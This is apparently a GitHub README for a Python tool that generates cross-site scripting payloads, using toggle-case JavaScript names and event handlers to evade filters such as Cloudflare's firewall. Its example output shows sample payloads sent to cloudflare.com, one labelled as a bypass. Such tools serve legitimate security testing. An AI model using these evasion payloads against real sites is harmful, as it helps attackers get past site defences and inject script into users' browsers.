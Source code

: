 # XSS Payload Generator

This Python script generates XSS (Cross-Site Scripting) payloads for various HTML tags. It includes common techniques for bypassing HTML character escaping and security filters by generating toggle case variations for JavaScript functions and includes a comprehensive list of event handlers.

## Features

- Generates XSS payloads for a wide range of HTML tags.
- Includes common XSS payload patterns and techniques.
- Generates toggle case variations for JavaScript functions to bypass security filters such as Cloudflare.
- URL encodes the payloads for easy use in testing.

## Prerequisites

- Python 3.x

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/0xMx/xss-payload-gen.git
   cd xss-payload-gen
   ```
## Usage
```bash
python xss-gen.py https://example.com/
```
## Example Output
```bash 
https://www.cloudflare.com/<a x=xxxxxxx onclick="SEtINTErval('Meshari-Almalki');"> [403] [Attention Required! | Cloudflare] -> Blocked by Cloudflare
https://cloudflare.com/<a x=xxxxxxx style="x:expression(SetINtervAL(Meshari-Almalki!););"> [301] [301 Moved Permanently]    -> Bypass the Cloudflare
```
